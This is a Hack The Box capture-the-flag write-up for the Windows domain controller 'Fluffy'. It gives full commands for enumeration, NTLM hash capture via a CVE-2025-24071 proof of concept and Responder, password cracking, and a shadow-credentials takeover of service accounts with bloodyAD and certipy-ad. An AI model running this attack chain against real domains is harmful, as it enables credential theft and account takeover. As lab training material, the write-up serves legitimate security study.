<h1>HTB: Fluffy</h1>


| Field      | Details                                                          |
|------------|------------------------------------------------------------------|
| Platform   | [Hack The Box](https://app.hackthebox.com/machines/Fluffy)       |
| Difficulty | Easy                                                             |
| OS         | Windows                                                          |
| Author     | ByteFragment                                                     |
| Date       | June 19th 2026                                                   |

--- 

<h2>Reconnaissance</h2>

<h3>NMAP</h3>

Port scanning the target using nmap via the command:

```
sudo nmap -sT -sV -T4 10.129.21.145 -oN nmap
```

This gave me the open tcp ports running on the target machine as well as the services running on those ports. The `-oN nmap` flag and argument means that the output will also be written to a file titled `nmap`.

From the nmap results we can see multiple open ports running services such as LDAP, Kerberos, SMB, and WinRM.

Additionally we can see import and domain info such as the target machine has the hostname of `DC01` indicating that it is a domain controller, and that the domain is `fluffy.htb`:

```
Starting Nmap 7.99 ( https://nmap.org ) at 2026-06-19 20:18 -0700
Nmap scan report for 10.129.21.145
Host is up (0.086s latency).
Not shown: 989 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-06-20 10:18:49Z)
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: fluffy.htb, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: fluffy.htb, Site: Default-First-Site-Name)
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: fluffy.htb, Site: Default-First-Site-Name)
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: fluffy.htb, Site: Default-First-Site-Name)
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

```

<h2>Enumeration</h2>

<h3>NetExec</h3>

Now lets attempt to use our provided credentials (`j.fleischman / J0elTHEM4n1990!`) to list the SMB shares using `netexec`. We will use the flag `--shares` for `list shares`:  

```
netexec smb 10.129.21.145 -u 'j.fleischman' -p 'J0elTHEM4n1990!' --shares
```

The command runs successfully and gives the following output:



<h3>SMBClient</h3>

The only non standard share listed is the `IT` share so lets attempt to access it using `smbclient`:

```
smbclient  //10.129.21.145/IT -U 'j.fleischman' 'J0elTHEM4n1990!'
```

Once connected we can list the files in the current directory with `ls`:



The file `Upgrade_Notice.pdf` contains information about currently CVE's that need to be patched:



It lists a total of 6 CVE's along with their associated severity, 2 Critical, 2 High, 1 Medium, and 1 Low.

<h2>Exploitation</h2>

The second CVE listed (CVE-2025-24071) is a critical spoofing vulnerability in Windows File Explorer. A python exploit script for this CVE is available on github from user [0x6rss](https://github.com/0x6rss/CVE-2025-24071_PoC/tree/main).

They provide a very clear description of the vulnerability:

```
Windows Explorer automatically initiates an SMB authentication request when a .library-ms file is extracted from a .rar archive, leading to NTLM hash disclosure. The user does not need to open or execute the file—simply extracting it is enough to trigger the leak.
```

After cloning the repo we can simply run the `poc.py` file and fill in the information requested ie the desired file name for the library file and our IP address:



<h3>Responder</h3>

Now that we have our malicious zip file we need to upload it into the SMB share, but first we need to set up `responder` "a powerful network exploitation tool used to capture, relay, and abuse authentication traffic in Windows environments." - [Vulntech](https://vulntech.com/tutorials/network-pentesting/responder/).

This is simple to do as we just run:

```
sudo responder -I tun0
```

In this case we use the tun0 interface as that is the interface of the HTB vpn where the traffic will be coming from. 

Now that it is running we can upload the malicious zip file into the IT SMB share using the `PUT` command.

After a few seconds we should see some activity on the responder:



Success! We captures the NTLM hash for the user `p.agila`!

<h3>John the Ripper</h3>

After placing the obtained hash into a file we can try and crack it using john the ripper with the rockyou wordlist:

```
john --wordlist=/usr/share/wordlists/rockyou.txt agila.hash
```

John is able to successfully crack the password giving us p.agila's password:



<h2>Foothold</h2>

Looking back at our nmap scan we see the target machine is also running a winrm service. Unfortunately p.agila doesn't seem to have the necessary permission or is not apart of the correct group as attempting to run commands using `evil-winrm` results in an authorization error:




Let's pivot and attempt to enumerate the Active Directory environment using `bloodhound-python`

<h3>Bloodhound-Python</h3>

We now have all the necessary information we need to run bloodhound-python on our attack machine:

- Domain : fluffy.htb
- Domain Controller : dc01.fluffy.htb
- Username : p.agila
- Password : **********


Thus we running the command:

```
bloodhound-python -d fluffy.htb -u 'p.agila' -p '*********' -dc 'dc01.fluffy.htb' -c all -ns 10.129.21.145
```

Gives us a series of .json files we can upload into `Bloodhound`:



The first thing we will do is mark `p.agila` as `owned`:



Bloodhound has a large amount of pre-written queries that we can use to help us find an exploit path. 

The point of marking p.agila as owned is so that we can run the query `Shortest paths from Owned objects` :



Zooming in we can see something very interesting:



p.agila is apart of the `Service Account Managers` group which has `GenericAll` ACL over the `Service Accounts` group.


The `Service Accounts` group has `GenericWrite` ACL for three service accounts:
1. winrm_svc
2. ldap_svc
3. ca_svc

With this permission we can change the password for these accounts, however since these are service accounts we want to gain access with minimal amount of noise. Changing the password for service account has a high chance of breaking the underlying service.

As a result we are going to use a technique called `Shadow Credentials` which "allows an attacker to take over an AD user or computer account if the attacker can modify the target object's (user or computer account) attribute msDS-KeyCredentialLink and append it with alternate credentials in the form of certificates." - [ired](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/shadow-credentials)


We first must add p.agila to the `Service Accounts` group which we will do with [bloodyAD](https://www.kali.org/tools/bloodyad/)

<h3>BloodyAD</h3>

We will again use our p.agila credentials to add the user to the service accounts group by running the command:

```
 bloodyAD -u 'p.agila' -p '********' -d fluffy.htb --host 10.129.21.145 add groupMember 'service accounts' p.agila
```



We now have GenericWrite permissions over the three service accounts!

Now it is time to add shadow credentials to the `winrm_svc` and `ca_svc` service accounts using [certipy-ad](https://www.kali.org/tools/certipy-ad/)

If you run into a `KRB_AP_ERR_SKEW(Clock skew too great)` error reference this [article](https://medium.com/@danieldantebarnes/fixing-the-kerberos-sessionerror-krb-ap-err-skew-clock-skew-too-great-issue-while-kerberoasting-b60b0fe20069)

To do this we will run the command:

```
certipy-ad shadow auto -username p.agila@10.129.21.145 -password '********' -account ca_svc
```



and then the same for winrm_svc:



Now that we have the NT hash for both the accounts lets try and use the winrm_svc hash to login using `evil-winrm`:



The user flag can be found on in the winrm_svc/Desktop directory!

